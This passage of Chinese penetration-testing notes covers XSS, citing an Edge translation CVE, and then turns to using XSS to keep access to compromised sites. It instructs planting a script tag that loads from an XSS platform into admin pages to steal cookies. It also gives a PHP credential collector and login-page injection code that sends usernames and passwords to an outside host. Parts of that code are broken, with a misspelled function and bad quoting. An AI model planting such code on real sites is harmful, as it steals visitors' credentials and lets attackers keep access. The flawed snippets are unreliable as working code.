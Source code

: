 1. CVE2021-34506

   Edge浏览器翻译功能导致JS语句被调用执行  https://www.bilibili.com/video/BV1fX4y1c7rX



## 7.其他XSS(mXSS, UTF-7 XSS, MHTML XSS, CSS XSS, VBScript XSS )

[跨站的艺术-XSS入门与介绍  Fooying](https://www.fooying.com/the-art-of-xss-1-introduction/#flash-xss)





# 3.结合XSS的权限维持



## 1.后台植入XSS   获取Cookie & 表单劫持

条件：已取得相关web权限后  

操作：

写入代码到登录成功文件，利用beef或xss平台实时监控Cookie等凭据实现权限维持。若存在同源策略或防护情况下，Cookie获取失败可采用表单劫持或数据明文传输实现。xss平台：[XSS平台 - （支持http/https）XSS Platform](https://xss.pt/xss.php?do=login)，beef，也可以自己搭建



1. 获取Cookie

   在网站页面文件写入`<script src=//xss.pt/goYU></script>`，在xss.pt平台接受可以看到这个页面的访问者的Cookie。eg: 这个页面可以是管理员的后台index.php，在xss平台就能看到管理员的请求数据包，从而获取Cookie。

2. 表单劫持

   自制xss平台`http://www.xiaodi8.com/get.php`，get.php文件接受信息：

   ```php
   <?php 
   $u = $_GET['user'];
   $p = $_GET['pass'];
   $myfile = fopen("info.txt", "w+");
   fwrtie($myfile, $u . "+" . $p);
   fclose($myfile);
   ?>
   ```

   在登陆页面源码里植入跨站代码：

   ```php
   <?php
   $info = "<script src="http://www.xiaodi8.com/get.php?user='.name'&pass='.word'"></script>";
   echo $info;
   ?>
   ```

## 2.XSS钓鱼配合MSF上线   Flash捆绑后门&浏览器网马
